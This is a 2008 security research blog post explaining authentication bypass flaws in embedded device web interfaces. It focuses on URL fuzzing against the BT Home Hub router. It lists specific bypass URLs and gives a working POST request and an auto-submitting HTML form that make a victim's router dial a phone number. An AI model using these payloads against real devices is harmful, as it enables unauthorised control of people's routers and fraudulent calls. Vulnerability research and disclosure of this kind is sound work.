 ```yaml
---
title: Holes In Embedded Devices Authentication Bypass (pt 1)
author: pagvac
date: Thu, 14 Feb 2008 12:13:33 GMT
template: post.pug
---
```


Finding authentication bypass bugs is an obvious choice for attackers, since such bugs allow administrative changes to be made without knowledge of the admin password. In other words, compromising the target device without requiring a password is of course something attackers are interested in! You bet!

After performing my own research and going through authentication bypass bugs on embedded devices published by other peers in the community, I came to the conclusion that these bugs are usually (or at least quite often) very simple flaws in web interfaces. Once you find one of these bugs they are usually trivial to exploit, and remind you of web vulnerabilities that you would expect finding in the 90s, but not these days.

The fact that embedded devices are very primitive in terms of hardware, ultimately means that the security of the software running on them is also sacrificed. Most of the authentication bypass bugs found on web interfaces of embedded devices fall into one of the following categories:

* URL fuzzing a.k.a. additional representation of URLs
* A-to-C attacks a.k.a. knowledge of "post-authentication" URLs
* Unchecked HTTP methods
* Unchecked administrative HTTP requests aka unprotected cgi scripts
* Unprotected redirects

We will go through all these authentication bypass bugs in detail. For this post, we will only cover the first type: URL fuzzing a.k.a. additional representation of URLs<.

## Authentication bypass via URL fuzzing

URL fuzzing targets bugs in the web server or server-side scripts that are part of the web console of an embedded device. These bugs could be due to a poorly-written regex, and finding them is all about finding alternative ways to represent a URL that would usually grant access to administrative functionalities. Sometimes, there are multiple ways a URL can be represented which is still understood by the target device, but causes the device to not require the user to enter a password.

For instance, the BT Home Hub, which is the most popular DSL router in the UK is [vulnerable](/blog/bt-home-flub-pwnin-the-bt-home-hub-4) to an authentication bypass bug due to the device accepting multiple representations of the same URL as valid, but only checking for password when submitting URLs in their original form. For example, the URL for accessing the firewall settings looks like: `http://bthomehub/cgi/b/secpol/cfg/` or `http://bthomehub/cgi/b/secpol/cfg/?ce=1&be=1&l0=4&l1=7` (they're both equivalent). However, appending various characters after the directory path allows attackers to completely bypass the authentication prompt:

* http://bthomehub/cgi/b/secpol/cfg/%5C
* http://bthomehub/cgi/b/secpol/cfg//
* http://bthomehub/cgi/b/secpol/cfg/%
* http://bthomehub/cgi/b/secpol/cfg/~

...and so on. The same technique could be used in this case not only to retrieve administrative settings, but also to make administrative changes. The only difference is that the requests must be submitted as POST rather than GET, but we still append the special characters to the URL the POST request is submitted to.For instance, the following POST request causes the BT Home Hub to call the Internet Office of the Holy See. Notice the double slash in the POST URL:

```http
POST /cgi/b/_voip_/stats//?ce=1&be=0&l0=-1&l1=-1&name= HTTP/1.1
Host: bthomehub

0=30&1=00390669893461
```

Such requests could be submitted by the victim's web browser via a HTML form with a `method="POST"` attribute:

```html
<html>
<body>
<form name="form" method="POST" enctype="application/x-www-form-urlencoded" action="http://bthomehub/cgi/b/_voip_/stats//?ce=1&be=0&l0=-1&l1=-1&name=">
<input type="hidden" name="0" value="30"/>
<input type="hidden" name="1" value="00390669893461"/>
</form>
<script>form.submit()</script>
</body>
</html>
```
